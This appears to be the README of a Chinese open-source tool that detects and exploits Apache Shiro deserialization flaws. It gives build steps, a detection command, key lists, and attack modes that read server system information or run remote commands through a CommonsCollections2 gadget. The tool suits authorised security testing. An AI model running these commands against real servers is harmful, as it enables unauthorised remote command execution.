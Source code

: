 mvn package 编译

## changelog
1. 新增shiro 检测方式(对，就是那个不需要gadget的检测方式) 2020.7.30
2. 新增shiro 100 key

## 检测方式
运行
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc 
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200713.png)


检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200536.png)


## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
